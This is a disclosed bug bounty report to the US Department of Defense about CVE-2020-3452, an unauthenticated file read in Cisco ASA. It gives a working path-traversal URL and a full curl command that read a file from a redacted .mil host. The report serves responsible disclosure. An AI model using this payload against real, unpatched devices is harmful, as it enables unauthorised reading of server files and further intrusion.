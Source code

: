# [CVE-2020-3452] Unauthenticated file read in Cisco ASA

## Report Details
- **Report ID**: 951530
- **URL**: https://hackerone.com/reports/951530
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-05T11:26:03.858Z
- **Disclosed**: 2020-10-16T19:49:37.454Z

## Reporter
- **Username**: mzfr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hey,

I found out that host `████████.mil` was vulnerable to CVE-2020-3452.

You can test it by visiting the URL:
```
https://██████████.mil/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```

To try it with CURL please run the following command:

```
curl -i -s -k  -X $'GET' \
    -H $'Host: ███████.mil' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Dest: document' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
    $'https://████████.mil/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua'
```

███████

Reference:
* https://www.secpod.com/blog/cve-2020-3452-affecting-85000-cisco-asa-ftd-devices/
* https://twitter.com/aboul3la/status/1286012324722155525

## Impact

Anyone can read any file present on the server.

## Attachments
No attachments
